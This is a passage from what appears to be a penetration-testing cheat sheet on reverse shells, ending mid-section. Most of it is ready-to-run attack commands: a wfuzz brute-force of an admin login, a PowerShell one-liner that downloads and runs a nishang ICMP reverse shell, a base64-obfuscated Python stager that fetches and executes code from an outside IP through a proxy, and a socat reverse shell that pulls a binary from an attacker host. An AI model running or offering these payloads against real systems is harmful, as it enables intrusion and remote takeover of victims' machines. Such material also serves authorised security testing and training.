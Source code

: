 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```

<pre>IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellIcmp.ps1'); Invoke-PowerShellIcmp -IPAddress [IP atacante]</pre>

![icmpreverseshell](https://user-images.githubusercontent.com/7115563/35213289-6ac51b00-ff5d-11e7-9b66-766af2aaf92e.png)

Reference: https://esgeeks.com/icmpsh-shell-reverse-con-icmp/


<a name="httpproxy"></a><h3> Reverse HTTP Shell through Proxy </h3>

<pre>use payload/python/meterpreter/reverse_http</pre>

![proxy2](https://user-images.githubusercontent.com/7115563/33836652-3d9c9624-de8a-11e7-9869-e18c5a28ebd7.png)


```python -c "import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.version_info[0]]('aW1wb3J0IHN5cwp2aT1zeXMudmVyc2lvbl9pbmZvCnVsPV9faW1wb3J0X18oezI6J3VybGxpYjInLDM6J3VybGxpYi5yZXF1ZXN0J31bdmlbMF1dLGZyb21saXN0PVsnYnVpbGRfb3BlbmVyJywnUHJveHlIYW5kbGVyJ10pCmhzPVtdCmhzLmFwcGVuZCh1bC5Qcm94eUhhbmRsZXIoeydodHRwJzonaHR0cDovLzE5Mi4xNjguMTA3LjIzMjo4MDgwJ30pKQpvPXVsLmJ1aWxkX29wZW5lcigqaHMpCm8uYWRkaGVhZGVycz1bKCdVc2VyLUFnZW50JywnTW96aWxsYS81LjAgKFdpbmRvd3MgTlQgNi4xOyBUcmlkZW50LzcuMDsgcnY6MTEuMCkgbGlrZSBHZWNrbycpXQpleGVjKG8ub3BlbignaHR0cDovLzE3OC42Mi41OC4zNTo4MC9qOTkzQScpLnJlYWQoKSkK')))"```

Finally we set up the handler:

![proxy3](https://user-images.githubusercontent.com/7115563/33836552-fd3204ac-de89-11e7-940c-71c8ab321bf7.png)


<a name="misc"></a><h2> Miscellaneous </h2>

<a name="interactiveshell"></a><h3> Interactive Reverse Shell </h3>

<b> Method 1 </b>

Attacker:

```socat file:`tty`,raw,echo=0 TCP-L:4444```

Victim:

```wget -q http://10.10.14.16/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.16:4444```

Socat Binary: https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat

<b> Method 2 </b>

In reverse shell

<pre>
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
</pre>

In kali

<pre>
echo $TERM
stty -a
stty raw -echo
fg
</pre>

In reverse shell

```